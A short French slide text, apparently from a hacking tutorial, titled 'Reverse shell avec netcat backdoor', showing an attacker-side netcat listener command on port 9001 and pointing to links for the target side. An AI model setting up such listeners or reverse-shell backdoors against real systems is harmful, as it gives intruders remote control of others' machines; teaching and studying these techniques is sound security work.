

# Reverse shell avec netcat backdoor
Coté attaquant (lien1 en description)
Coté attaquant : nc –v –l –p 9001

Coté cible (lien2 en description)